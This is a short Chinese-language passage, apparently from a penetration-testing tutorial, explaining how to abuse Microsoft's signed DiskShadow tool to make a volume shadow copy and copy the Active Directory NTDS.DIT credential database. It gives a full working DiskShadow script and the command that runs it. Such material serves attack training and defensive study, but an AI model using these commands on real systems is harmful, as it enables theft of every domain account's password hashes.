 ![](assets/1710388326-6dcf3244da462005860dd81cb3672bfb.png)

**b、DiskShadow**

DiskShadow 是一个 Microsoft 签名二进制文件用于协助管理员执行与卷影复制服务 VSS 相关的操作。这个二进制文件有两个模式 interactive 和 script 脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。可以在脚本文件中添加以下行以创建新的 volume shadow copy 卷影复制挂载新驱动执行复制命令以及删除 volume shadow copy。

```bash
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意的是 DiskShadow 二进制文件需要从 C:\\Windows\\System32 路径执行。如果从其它路径调用它脚本将无法正确执行同时该脚本文件保存时编码格式不能选择 UTF-8 要选择 ASCII 编码否则运行会报错。

```bash
diskshadow.exe /s c:\diskshadow.txt
```
